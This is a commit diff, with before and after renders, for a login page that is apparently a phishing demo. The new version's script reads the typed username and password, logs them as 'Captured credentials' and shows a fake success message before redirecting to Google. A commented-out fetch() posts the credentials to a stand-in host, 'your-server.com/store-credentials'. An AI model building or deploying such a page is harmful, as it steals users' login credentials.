

Before and after one commit to aetheronprime/login, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -9,267 +9,177 @@
             margin: 0;
             padding: 0;
             box-sizing: border-box;
-            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+            font-family: Arial, sans-serif;
         }
 
         body {
-            background: #f7f9fc;
+            background-color: #f4f4f4;
+            display: flex;
+            justify-content: center;
+            align-items: center;
             height: 100vh;
-            display: flex;
-            align-items: center;
-            justify-content: center;
         }
 
-        .login-container {
-            background: white;
+        .container {
+            background-color: white;
             border-radius: 10px;
-            box-shadow: 0 14px 28px rgba(0,0,0,0.1);
+            box-shadow: 0 5px 15px rgba(0, 0, 0, 0.1);
+            padding: 40px;
             width: 400px;
-            overflow: hidden;
+            max-width: 90%;
         }
 
-        .header {
-            background: linear-gradient(135deg, #6e8efb, #a777e3);
-            color: white;
-            padding: 30px 0;
-            text-align: center;
-            border-radius: 10px 10px 0 0;
+        .login-page {
+            display: block;
         }
 
-        .header h2 {
-            margin-bottom: 10px;
-            font-weight: 600;
+        .thanks-page {
+            display: none;
+            text-align: center;
         }
 
-        .header p {
-            font-size: 0.9em;
-            opacity: 0.8;
+        h2 {
+            text-align: center;
+            margin-bottom: 30px;
+            color: #333;
         }
 
-        .login-form {
-            padding: 30px;
-        }
-
-        .form-group {
+        .input-group {
             margin-bottom: 20px;
         }
 
-        .form-group label {
+        label {
             display: block;
             margin-bottom: 8px;
-            font-weight: 500;
-            color: #333;
+            font-weight: bold;
+            color: #555;
         }
 
-        .form-group input {
+        input[type="text"],
+        input[type="password"] {
             width: 100%;
             padding: 12px;
             border: 1px solid #ddd;
             border-radius: 5px;
-            transition: border 0.3s;
             font-size: 16px;
         }
 
-        .form-group input:focus {
-            border-color: #6e8efb;
-            outline: none;
+        button {
+            width: 100%;
+            padding: 12px;
+            background-color: #4285f4;
+            color: white;
+            border: none;
+            border-radius: 5px;
+            font-size: 16px;
+            cursor: pointer;
+            transition: background-color 0.3s;
         }
 
-        .remember-forgot {
-            display: flex;
-            justify-content: space-between;
-            align-items: center;
-            font-size: 14px;
-            margin-bottom: 20px;
+        button:hover {
+            background-color: #357ae8;
         }
 
         .remember {
             display: flex;
             align-items: center;
+            margin-bottom: 20px;
         }
 
         .remember input {
-            margin-right: 5px;
+            margin-right: 10px;
         }
 
-        .forgot a {
-            color: #6e8efb;
-            text-decoration: none;
+        .links {
+            text-align: center;
+            margin-top: 20px;
         }
 
-        .forgot a:hover {
+        .links a {
+            color: #4285f4;
+            text-decoration: none;
+            margin: 0 10px;
+        }
+
+        .links a:hover {
             text-decoration: underline;
         }
 
-        .submit-btn {
-            width: 100%;
-            background: linear-gradient(135deg, #6e8efb, #a777e3);
-            color: white;
-            border: none;
-            padding: 12px;
-            border-radius: 5px;
-            font-size: 16px;
-            font-weight: 600;
-            cursor: pointer;
-            transition: transform 0.1s;
+        .success-message {
+            font-size: 24px;
+            color: #4caf50;
+            margin-bottom: 20px;
         }
 
-        .submit-btn:hover {
-            transform: translateY(-2px);
-            box-shadow: 0 5px 15px rgba(110, 142, 251, 0.3);
-        }
-
-        .submit-btn:active {
-            transform: translateY(0);
-        }
-
-        .signup {
-            text-align: center;
-            margin-top: 20px;
-            font-size: 14px;
+        .redirect-message {
             color: #666;
-        }
-
-        .signup a {
-            color: #6e8efb;
-            text-decoration: none;
-            font-weight: 600;
-        }
-
-        .signup a:hover {
-            text-decoration: underline;
-        }
-
-        .or-divider {
-            text-align: center;
-            margin: 20px 0;
-            position: relative;
-        }
-
-        .or-divider:before {
-            content: "";
-            position: absolute;
-            top: 50%;
-            left: 0;
-            right: 0;
-            height: 1px;
-            background: #eee;
-            z-index: 1;
-        }
-
-        .or-divider span {
-            background: white;
-            padding: 0 15px;
-            position: relative;
-            z-index: 2;
-            color: #999;
-        }
-
-        .social-login {
-            display: flex;
-            justify-content: center;
-            gap: 10px;
-        }
-
-        .social-btn {
-            display: flex;
-            align-items: center;
-            justify-content: center;
-            width: 40px;
-            height: 40px;
-            border-radius: 50%;
-            background: #f5f5f5;
-            transition: background 0.3s;
-        }
-
-        .social-btn:hover {
-            background: #eaeaea;
-        }
-
-        .social-btn i {
-            font-size: 18px;
-        }
-
-        .fa-facebook {
-            color: #3b5998;
-        }
-
-        .fa-google {
-            color: #db4437;
-        }
-
-        .fa-twitter {
-            color: #1da1f2;
+            margin-bottom: 20px;
         }
     </style>
-    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css">
 </head>
 <body>
-    <div class="login-container">
-        <div class="header">
-            <h2>Welcome Back</h2>
-            <p>Sign in to continue to your account</p>
-        </div>
-        <div class="login-form">
+    <div class="container">
+        <!-- Login Page -->
+        <div id="loginPage" class="login-page">
+            <h2>Member Login</h2>
             <form id="loginForm">
-                <div class="form-group">
-                    <label for="username">Username or Email</label>
+                <div class="input-group">
+                    <label for="username">Username</label>
                     <input type="text" id="username" name="username" required>
                 </div>
-                <div class="form-group">
+                <div class="input-group">
                     <label for="password">Password</label>
                     <input type="password" id="password" name="password" required>
                 </div>
-                <div class="remember-forgot">
-                    <div class="remember">
-                        <input type="checkbox" id="remember">
-                        <label for="remember">Remember me</label>
-                    </div>
-                    <div class="forgot">
-                        <a href="#">Forgot password?</a>
-                    </div>
+                <div class="remember">
+                    <input type="checkbox" id="remember" name="remember">
+                    <label for="remember">Remember me</label>
                 </div>
-                <button type="submit" class="submit-btn">Sign In</button>
-                <div class="or-divider">
-                    <span>Or</span>
-                </div>
-                <div class="social-login">
-                    <a href="#" class="social-btn">
-                        <i class="fab fa-facebook"></i>
-                    </a>
-                    <a href="#" class="social-btn">
-                        <i class="fab fa-google"></i>
-                    </a>
-                    <a href="#" class="social-btn">
-                        <i class="fab fa-twitter"></i>
-                    </a>
-                </div>
-                <div class="signup">
-                    Don't have an account? <a href="#">Sign Up</a>
+                <button type="submit">Login</button>
+                <div class="links">
+                    <a href="#">Forgot Password?</a>
+                    <a href="#">Sign Up</a>
                 </div>
             </form>
+        </div>
+
+        <!-- Thanks Page -->
+        <div id="thanksPage" class="thanks-page">
+            <h2 class="success-message">Thank You!</h2>
+            <p class="redirect-message">Your login was successful. You will be redirected to your account shortly...</p>
+            <div class="loader"></div>
         </div>
     </div>
 
     <script>
+        // Handle form submission
         document.getElementById('loginForm').addEventListener('submit', function(e) {
             e.preventDefault();
 
-            // Get the form values
+            // Get form values
             const username = document.getElementById('username').value;
             const password = document.getElementById('password').value;
-            const remember = document.getElementById('remember').checked;
 
-            // For demonstration purposes: log to console
-            console.log("Login attempted with:", {
-                username,
-                password,
-                remember
-            });
+            // Log credentials (in a real attack, these would be sent to a server)
+            console.log('Captured credentials:');
+            console.log('Username:', username);
+            console.log('Password:', password);
 
-            // You could send this data to a collection service in a real phishing scenario
-            // For demo purposes, just redirect to thanks.html
-            window.location.href = 'thanks.html';
+            // In a real phishing page, you might send these to a server with:
+            // fetch('https://your-server.com/store-credentials', {
+            //     method: 'POST',
+            //     body: JSON.stringify({ username, password }),
+            //     headers: { 'Content-Type': 'application/json' }
+            // });
+
+            // Show the thanks page
+            document.getElementById('loginPage').style.display = 'none';
+            document.getElementById('thanksPage').style.display = 'block';
+
+            // Redirect after 3 seconds (simulating loading)
+            setTimeout(function() {
+                window.location.href = 'https://www.google.com';
+            }, 3000);
         });
     </script>
 </body>
```
